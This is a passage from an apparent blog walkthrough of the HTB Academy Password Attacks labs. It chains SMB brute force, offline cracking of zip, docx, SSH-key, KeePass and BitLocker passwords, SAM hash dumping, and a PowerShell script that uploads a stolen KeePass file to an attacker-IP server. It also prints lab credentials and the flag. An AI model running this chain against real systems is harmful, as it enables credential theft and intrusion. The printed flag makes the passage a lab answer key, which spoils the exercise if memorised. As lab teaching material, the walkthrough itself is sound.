using the username.list and password.list from resources folder.


*_Figure 80.1 — Lab execution and output verification (Page 80)_*


*_Figure 80.2 — Lab execution and output verification (Page 80)_*


### 'root:123456'. We will use the command

#### Technical Methodology & Exploit Execution:

```bash
crackmapexec smb <target-IP> -u "root" -p "123456" --shares
```


*
*

So, we are logged as Guests, and have read access to 'SHAREDRIVE', lets take a
look – we will take a look at 'SHAREDRIVE' with the command:
```bash
smbclient -U root \\\\<target-IP>\\SHAREDRIVE
```
we are now logged in and have the smb CLI, lets see what we have with 'ls':

We have 'Docs.zip' available for us, let's get it with:
get Docs.zip


*_Figure 81.1 — Lab execution and output verification (Page 81)_*


*_Figure 81.2 — Lab execution and output verification (Page 81)_*


*_Figure 81.3 — Lab execution and output verification (Page 81)_*


*_Figure 81.4 — Lab execution and output verification (Page 81)_*


### When attempting to unzip it

now we should have the file at the pwnbox, lets 'ls' to confirm:

When attempting to unzip it:

We are required to enter password, which we currently do not have.
Let's prepare the zip to be cracked in the same method used in 'Protected
Archives' section:
We will get the corresponding hashes of the zip with 'zip2john':
zip2john Docs.zip > Docs.hash

we will generate the mutated password list required for the cracking:
```bash
hashcat --force password.list -r custom.rule --stdout | sort
-u > mut_password.list
```

and begin cracking
```bash
john --wordlist=mut_password.list Docs.hash
```


Cracking successful, we have the zip's password – 'Destiny2022!'


*_Figure 82.1 — Lab execution and output verification (Page 82)_*


*_Figure 82.2 — Lab execution and output verification (Page 82)_*


*_Figure 82.3 — Lab execution and output verification (Page 82)_*


### Now that we have the password - lets unzip Docs.zip

#### Technical Methodology & Exploit Execution:

libreoffice Documentation.docx
and.. we are required to enter password:

Any of the passwords obtained so far will not work.

We will have to crack it, we will use the tool 'office2john' (which is similar to
the previous 'zip2john' and 'ssh2john' tools) (it is also built in the pwnbox (you
can always confirm with 'which office2john.py')).
And we will use the mut_password.list.
The commands we will run are:
office2john.py Documentation.docx > docx.hash
```bash
john --wordlist=mut_password.list docx.hash
```
*the commands work similarly to the previous tools. *:


*_Figure 83.1 — Lab execution and output verification (Page 83)_*


*_Figure 83.2 — Lab execution and output verification (Page 83)_*


*_Figure 83.3 — Lab execution and output verification (Page 83)_*


### And the Documentation.docx is now open

The Documentation.docx password is '987654321'.
And the Documentation.docx is now open:

Some pages down, they were kind enough to write root's password:

Now, ssh connecting as root will ask for public key

But we can use the credentials 'jason:C4mNKjAtL2dydsYa6' to connect to ssh
connect to jason:

*
*


*_Figure 84.1 — Lab execution and output verification (Page 84)_*


*_Figure 84.2 — Lab execution and output verification (Page 84)_*


*_Figure 84.3 — Lab execution and output verification (Page 84)_*


*_Figure 84.4 — Lab execution and output verification (Page 84)_*


*_Figure 84.5 — Lab execution and output verification (Page 84)_*


### Investigating further in the Documentation.docx

#### Technical Methodology & Exploit Execution:

mysql -u jason -pC4mNKjAtL2dydsYa6
*make sure to login from jason ssh session on the target machine. *


We are now on the mysql with its CLI - Lets see what databases are there:
```bash
show databases;
```


*_Figure 85.1 — Lab execution and output verification (Page 85)_*


*_Figure 85.2 — Lab execution and output verification (Page 85)_*


*_Figure 85.3 — Lab execution and output verification (Page 85)_*


### within 'users' database

The 'users' database looks interesting, we will choose and ask for tables display
within 'users' database:
```bash
use users;
show tables;
```


It has a single table of 'creds' which is abbreviation of 'credentials'.
lets select all the data in it:
select * from creds;


*
*

Here is dennis credentials: 'dennis:7AUgWWQEiMPdqx'
Lets ssh connect to 'dennis':

***


*_Figure 86.1 — Lab execution and output verification (Page 86)_*


*_Figure 86.2 — Lab execution and output verification (Page 86)_*


*_Figure 86.3 — Lab execution and output verification (Page 86)_*


*_Figure 86.4 — Lab execution and output verification (Page 86)_*


*_Figure 86.5 — Lab execution and output verification (Page 86)_*


### Lets investigate dennis home directory with 'ls -a'

#### Technical Methodology & Exploit Execution:

```bash
wget http://<target-IP>:8080/id_rsa
```


*_Figure 87.1 — Lab execution and output verification (Page 87)_*


*_Figure 87.2 — Lab execution and output verification (Page 87)_*


*_Figure 87.3 — Lab execution and output verification (Page 87)_*


*_Figure 87.4 — Lab execution and output verification (Page 87)_*


### And we can confirm download with 'ls id_rsa'

And we can confirm download with 'ls id_rsa':


Ok we have the 'id_rsa' private key in the pwnbox, we will set its permissions to
600 like last time to prevent non-owner read of the file
```bash
chmod 600 id_rsa
```
And now lets connect to root:
```bash
ssh -i ./id_rsa root@<target-IP>
```


We need a passphrase….

Well we will obtain it in the same manner it was obtained in 'Protected Files'
section.
This is where the question's hint comes into play, and we will download from
here the tool 'ssh2john', the same tool used in 'Protected Files'. (using the
pwnbox firefox browser, or wget, doesn't matter)
When the 'ssh2john' is downloaded - we run the sequence of commands:
ssh2john.py id_rsa > id_rsa.hash
```bash
john --wordlist=mut_password.list id_rsa.hash
```
like in the 'Protected Files' section – we get the corresponding hash of the file,
and then we use john to crack it, using the mutated passwords list:


*_Figure 88.1 — Lab execution and output verification (Page 88)_*


*_Figure 88.2 — Lab execution and output verification (Page 88)_*


*_Figure 88.3 — Lab execution and output verification (Page 88)_*


### passphrase

And we have a passphrase – 'P@ssw0rd12020!'.
Lets ssh login again to root, using the 'id_rsa' private key and the obtained
passphrase:

*
*

We are in as root!
Lets run 'ls':


And cat the flag:


*_Figure 89.1 — Lab execution and output verification (Page 89)_*


*_Figure 89.2 — Lab execution and output verification (Page 89)_*


*_Figure 89.3 — Lab execution and output verification (Page 89)_*


*_Figure 89.4 — Lab execution and output verification (Page 89)_*


*_Figure 89.5 — Lab execution and output verification (Page 89)_*


### Password Attacks Lab - Hard

> **Lab Question (Page 90)**: Examine the third target and submit the contents of flag.txt in C:\Users\Administrator\Desktop\ as the answer .
>
> **Flag / Answer**: `HTB{PWcr4ck1ngokokok}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first lets nmap scan the target machine:
```bash
nmap <target-IP> -sV -p 1-10000
```


There are several services that runs on the machine, SMB is one them – lets try
to brute force that.
On the section details we were implied to use a username or a variation of the
username 'Johanna'. We will arrange a proper username list based on
'Johanna' with the same method used in 'Attacking Active Directory &
NTDS.dit' section, using 'Username Anarchy'.
When the tool downloaded and unzipped - we will run the commands:
```bash
echo Johanna > names.txt
```

./username-anarchy-master/username-anarchy -i names.txt >
usernames.txt
We can also cat names.txt to confirm the list before the username mutation
command.


*_Figure 90.1 — Lab execution and output verification (Page 90)_*


### Metasploit, or crackmapexec, lets use the later

#### Technical Methodology & Exploit Execution:

```bash
crackmapexec smb <target-IP> -u usernames.txt -p
mut_password.list | grep '+'
```
and after several moment we will get credentials!

The credentials of johanna are 'johanna:1231234!'.
Now, looking at what smb shares johanna can inspect:
```bash
crackmapexec smb <target-IP> -u "johanna" -p "1231234!" --
shares
```

```bash
smbclient -U johanna \\\\<target-IP>\\IPC$
```


*_Figure 91.1 — Lab execution and output verification (Page 91)_*


*_Figure 91.2 — Lab execution and output verification (Page 91)_*


*_Figure 91.3 — Lab execution and output verification (Page 91)_*


### try to login with the command

#### Technical Methodology & Exploit Execution:

```bash
xfreerdp /v:<target-IP> /u:johanna /p:1231234! /dynamic-resolution
```
and we are in:

Lets open the file explorer:

We can immediately notice the 'Logins.kbdx' file on the quick access, located in
'C:\Users\johanna\Documents' folder (it's the same 'This PC\Documents').
This '.kdbx' is a 'KeePass' file, a password manager application which securely
stores user's passwords (in an encrypted manner) of course) – lets try to open
it:


*_Figure 92.1 — Lab execution and output verification (Page 92)_*


*_Figure 92.2 — Lab execution and output verification (Page 92)_*


### KeePass interface

We are requested to enter a Master key, lets try the '1231234!'password:

We will have to find a way to crack it – we will use the tool keepass2john (do
NOT download it yet).
Before we proceed with it, let's read some of its commented part:

It seems the tool support cracking for password database storage version 1.X.
Lets confirm the version of KeePass in johana user is compatible – when closing
the 'master key is invalid' box, we will be opened with a blank version of the
KeePass interface:


*_Figure 93.1 — Lab execution and output verification (Page 93)_*


*_Figure 93.2 — Lab execution and output verification (Page 93)_*


*_Figure 93.3 — Lab execution and output verification (Page 93)_*


Go to Help  →  About KeePass


The line we care about is the last one – it says 1.X, which means compatible
*Note – while the versions seem to be inline, I am no expert in KeePass
versioning, maybe even if the versions weren't fully compatible, the coming
steps are still worth to try. *

Now before we proceed with the keepass2john tool – the tool in the link above
is fit for python2, it will not work with python3, so I've modified the tool to fit
python3, download the modified tool to the pwnbox (or any other attacking
machine) from here (that's why you were instructed to not download the
original tool).


*_Figure 94.1 — Lab execution and output verification (Page 94)_*


*_Figure 94.2 — Lab execution and output verification (Page 94)_*


*_Figure 94.3 — Lab execution and output verification (Page 94)_*


### downloading, confirm file with ls

#### Technical Methodology & Exploit Execution:

```bash
python3 python_server_advanced.py
```
and we will see the serving on port 8080 message:


While the server is listening, on the target machine, we will open powershell
on the 'C:\Users\johanna\Documents' folder, and run the (also crude)
```bash
powershell upload script:
```


*_Figure 95.1 — Lab execution and output verification (Page 95)_*


*_Figure 95.2 — Lab execution and output verification (Page 95)_*


*_Figure 95.3 — Lab execution and output verification (Page 95)_*


*_Figure 95.4 — Lab execution and output verification (Page 95)_*


### Lets confirm

$filePath = ".\Logins.kdbx"
$targetUrl = "http://`<attacker-IP>`:8080/upload"
# Create a WebClient object
$webClient = New-Object System.Net.WebClient
$webClient.Headers.Add("filename",
[System.IO.Path]::GetFileName($filePath))
$WebClient.Headers.Add("Authorization", "Basic " + $AuthStr)
$WebClient.Headers.Add("X-Atlassian-Token", "nocheck")
# Upload the file
$WebClient.UploadFile($targetUrl, (Get-Location).Path + "\"
+ $filePath)
Write-Output "File uploaded successfully"
*make sure to change the `<attacker-IP>` to the pwnbox or other attacker IP . *

After some numbers going..


When the file is uploaded, we will get 200 code on the server:

It means that 'Logins.kdbx' was successfully uploaded to the pwnbox.
Lets confirm:


*_Figure 96.1 — Lab execution and output verification (Page 96)_*


*_Figure 96.2 — Lab execution and output verification (Page 96)_*


*_Figure 96.3 — Lab execution and output verification (Page 96)_*


*_Figure 96.4 — Lab execution and output verification (Page 96)_*


### use the commands

Now that we have both the modified 'keepass2john_3.py' and 'Logins.kdbx' –
lets start the cracking in a similar manner to the others 'xx2john' tools, we will
```bash
use the commands:
python3 keepass2john_3.py Logins.kdbx > Logins.hash
john --wordlist=mut_password.list Logins.hash
```
using the usual 'mut_password.list' as passwords list, the cracking will take few
minutes, in the end of which:

The master key is 'Qwerty7!' – lets reopen the Logins.kdbx:

And we are in!

We can see the username 'david' (which simple exploring on the target
machine will reveal he is also a user on the machine), and a hidden password.
To reveal the password, we right click on the entry, and select 'Edit Entry':


*_Figure 97.1 — Lab execution and output verification (Page 97)_*


*_Figure 97.2 — Lab execution and output verification (Page 97)_*


*_Figure 97.3 — Lab execution and output verification (Page 97)_*


### And we are opened with an 'Edit Entry' Window

And we are opened with an 'Edit Entry' Window:

Lets clock on that button with 3 dots to show the password:

david's credentials are: 'david:gRzX7YbeTcDG7'.
Attempting to login with the credentials to RDP or WinRM will result in
authentication error/access denied:
```bash
evil-winrm -i <target-IP> -u david -p gRzX7YbeTcDG7
```

```bash
xfreerdp /v:<target-IP> /u:david /p:gRzX7YbeTcDG7 /dynamic-resolution
```


*_Figure 98.1 — Lab execution and output verification (Page 98)_*


*_Figure 98.2 — Lab execution and output verification (Page 98)_*


*_Figure 98.3 — Lab execution and output verification (Page 98)_*


### see what we've got

Access denied for both..
Lets try smb connect – first lets take a look at the shares:
```bash
crackmapexec smb <target-IP> -u "david" -p "gRzX7YbeTcDG7" -
-shares
```


We have read access to 'david' share (which johanna hasn't) – lets enter it and
see what we've got:
```bash
smbclient -U david \\\\<target-IP>\\david
```


After password entry and 'ls' – 'david's share has 'Backup.vhd' file.
Lets get it to the pwnbox:


*_Figure 99.1 — Lab execution and output verification (Page 99)_*


*_Figure 99.2 — Lab execution and output verification (Page 99)_*


*_Figure 99.3 — Lab execution and output verification (Page 99)_*


*_Figure 99.4 — Lab execution and output verification (Page 99)_*


### It is kinda heavy

#### Technical Methodology & Exploit Execution:

```bash
sudo fdisk -l /dev/nbd0
```
to make sure there isn't anything on '/dev/nbd0':

Good there isn't! (if there is – disconnect it with 'sudo qemu-nbd -d /dev/nbd0'
or replace 0 with another number like 'nbd1' or 'nbd2')

Lets get mount Backup.vhd on nbd0
```bash
sudo modprobe nbd
sudo qemu-nbd -c /dev/nbd0 --format=vpc Backup.vhd
```


*_Figure 100.1 — Lab execution and output verification (Page 100)_*


*_Figure 100.2 — Lab execution and output verification (Page 100)_*


*_Figure 100.3 — Lab execution and output verification (Page 100)_*


### Here is some explanation about 'modprobe'

Here is some explanation about 'modprobe':


And 'qemu-nbd':


*_Figure 101.1 — Lab execution and output verification (Page 101)_*


*_Figure 101.2 — Lab execution and output verification (Page 101)_*


*_Figure 101.3 — Lab execution and output verification (Page 101)_*


### again to confirm mount

Lets run
```bash
sudo fdisk -l /dev/nbd0
```
again to confirm mount:

Here is our stuff, on 2 sub-petitions, we will target the second one – nbd0p2.
We will run the command
```bash
sudo cryptsetup bitlkOpen /dev/nbd0p2 <label>
```
*in this write up* - the label will be 'decrypted_vhd'*:

We need a passphrase.
We will bruteforce the passphrase with this bash script I made, that bruteforce
the passphrase request using the 'mut_password.list'
*Note – A. make sure the 'mut_password.list' is present at the same directory,
both the password list and the label are hardcoded within the script.
B. also the dev 'nbd0p2' is hard coded in the script. *

**also – the traditional way involves obtaining the corresponding hash of the
vhd but I didn't succeed with that so I resorted to this method, which works!
If anyone succeed with the hash method is welcome to let me know (the email
is at the readme) **


*_Figure 102.1 — Lab execution and output verification (Page 102)_*


*_Figure 102.2 — Lab execution and output verification (Page 102)_*


### permissions and run

Anyway, the default script name is 'vdi_cracker.sh' - lets enable execution
permissions and run:
```bash
chmod u+x vdi_cracker.sh
```
./ vdi_cracker.sh
*don't forget to have the 'mut_password.list'  in the same folder, and other
relevant hardcoded objects mentioned above. *
**note – if the file run is getting:

Error: run
dos2unix vdi_cracker.sh
(install 'sudo apt-get install dos2unix' if required!)

It should fix the problem. **

Anyway lets run:

After  10+- minutes of runtime The vhd password is '123456789!'.

Now that we know the Backup.vhd password – we can decrypt it and mount it.
We will proceed to run the sequence of commands:
```bash
sudo cryptsetup bitlkOpen /dev/nbd0p2 decrypted_vhd
```
enter the passphrase that we had just discovered:


*_Figure 103.1 — Lab execution and output verification (Page 103)_*


*_Figure 103.2 — Lab execution and output verification (Page 103)_*


*_Figure 103.3 — Lab execution and output verification (Page 103)_*


*_Figure 103.4 — Lab execution and output verification (Page 103)_*


### Then

Then:
```bash
sudo mkdir -p /mnt/decrypted_vhd
sudo mount /dev/mapper/decrypted_vhd /mnt/decrypted_vhd
```
*-p flag is to create parent directories if necessary. *
at this point we should have the decrypt content of the virtual hard disk in
'mnt/decrypted_vhd', we will proceed with:
```bash
cd /mnt/decrypted_vhd
ls -la
```
to change our pwd to the decrypted vhd, and view its content (remember: '-la'
is for view in details about the files ('-l'), including hidden files ('-a')):

We can observe the files SAM and SYSTEM, files that are required to extract
hash credentials of users.

For convenience, lets copy them to the home directory first ('~'):
cp SAM ~
cp SYSTEM ~


Here they are on the home's directory:


*_Figure 104.1 — Lab execution and output verification (Page 104)_*


*_Figure 104.2 — Lab execution and output verification (Page 104)_*


*_Figure 104.3 — Lab execution and output verification (Page 104)_*


### Lets use secretsdump to extract the hashes

Lets use secretsdump to extract the hashes:
```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -system SYSTEM
```
LOCAL


The Administrator NTLM hash is the marked hashed in the screenshot above –
lets crack it, lets put the hash within a file called 'hash.txt':

We will use the usual 'mut_password.list' as our word list, and the usual
```bash
hashcat command and NTLM flag of '-m 1000':
sudo hashcat -m 1000 hash.txt mut_password.list
```


The Administrator's password is 'Liverp00l8!'


*_Figure 105.1 — Lab execution and output verification (Page 105)_*


*_Figure 105.2 — Lab execution and output verification (Page 105)_*


*_Figure 105.3 — Lab execution and output verification (Page 105)_*


### Lets RDP login to the Administrator

Lets RDP login to the Administrator:
```bash
xfreerdp /v:<target-IP> /u:Administrator /p:Liverp00l8!
/dynamic-resolution
```


Here is our flag!


*_Figure 106.1 — Lab execution and output verification (Page 106)_*


*_Figure 106.2 — Lab execution and output verification (Page 106)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1110.002, T1003, T1555` |
| **Common Weakness Enumerations** | `CWE-522, CWE-328` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1110.002`](https://attack.mitre.org/techniques/T1110/) | **Brute Force: Password Cracking** | `Credential Access` | Cracking hashes offline via wordlists and rules |
| [`T1003`](https://attack.mitre.org/techniques/T1003/) | **OS Credential Dumping** | `Credential Access` | Dumping hashes from SAM, NTDS.dit, LSASS, and `/etc/shadow` |
| [`T1555`](https://attack.mitre.org/techniques/T1555/) | **Credentials from Password Stores** | `Credential Access` | Extracting credentials from browser storage, Keepass, and DPAPI |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-522`: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)
- [`CWE-328`: Use of Weak Hash](https://cwe.mitre.org/data/definitions/328.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Windows Event ID 4663 / 4656: Monitor unauthorized access requests to `LSASS.exe` process handles.
- Deploy Microsoft Defender Credential Guard to isolate LSASS memory in a virtualized container.
- Enforce modern slow hashing algorithms (Argon2id, bcrypt, PBKDF2) for stored application credentials instead of fast hashes (MD5, SHA1).


---

## Authoritative References & Recommended Reading

- [HTB Academy: Password Attacks](https://academy.hackthebox.com/module/147) — *Official Hack The Box curriculum track*
- [John the Ripper Official Documentation](https://www.openwall.com/john/doc/) — *Password cracker reference*
- [SecLists Password Dictionaries](https://github.com/danielmiessler/SecLists/tree/master/Passwords) — *Standard wordlist collections*
- [NIST SP 800-63B Authentication Guidelines](https://pages.nist.gov/800-63-3/sp800-63b.html) — *Modern password complexity and length requirements*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-18-sqlmap-essentials/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 18: SQLMap Essentials for Automated Database Takeover</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 19 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-20-server-side-attacks/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 20: Server-Side Attacks (SSRF, SSTI & XXE)</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
